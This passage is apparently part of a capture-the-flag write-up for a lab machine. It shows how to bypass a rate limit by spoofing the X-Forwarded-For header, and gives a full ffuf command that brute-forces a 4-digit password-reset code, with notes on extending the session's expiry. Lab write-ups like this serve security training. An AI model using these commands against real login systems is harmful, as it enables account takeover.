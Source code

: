 Trying `X-Forwarded-For: 1.1.1.1` reset the rate-limit.
- Changing the IP-Address in the Header gives another 10 request before it kicks in again.
- In fact, any value, even an improperly formatted IPV4 address also worked.
![Image](/images/Hammer-15.png)

![Image](/images/Hammer-17.png)

#### Brute-Forcing the MFA

So far, the steps are as follows:
1. start the reset password process using `tester@hammer.thm`
2. the user's `PHPSESSID` is active for adding the 4-digit code for 180 seconds
3. brute-force by running from 0000 to 9999 in steps of 1
4. doing step 3 while changing the `X-Forwarded-For` either every 10 attempts, or simply every attempt

#### FUZZ The Recovery Code

Generate a file that has values from 0000 to 9999:
```bash
seq -w 0000 9999 >> codes.txt
```
- making sure to use `-w` flag, or else you will not create 4-digit numbers

Now to fire up `FFuF` and use `codes.txt`:
```bash
ffuf -u http://hammer.thm:1337/reset_password.php -w codes.txt -X "POST" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: FUZZ" -H "Cookie: PHPSESSID=<CHANGE_ME>" -d "recovery_code=FUZZ" -fr "Invalid"
```

- `-fr` - filters using regexp.
	- the failed responses include `Invalid or expired recovery code!`

- `-d` - POST data, in this case the field we want to `FUZZ`

- Replace `<CHANGE_ME>` with the current `PHPSESSID`

![Image](/images/Hammer-18.png)

![Image](/images/Hammer-20.png)
- Notice no MFA Token.
- Guessing the payload structure would have also bypassed the 4-digit MFA code

Logging in gives us our first flag.

![Image](/images/Hammer-21.png)

The site is logging us out every 20 seconds.

![Image](/images/Hammer-22.png)
- Changing the expiration date to something further in the future will prevent this
![Image](/images/Hammer-24.png)
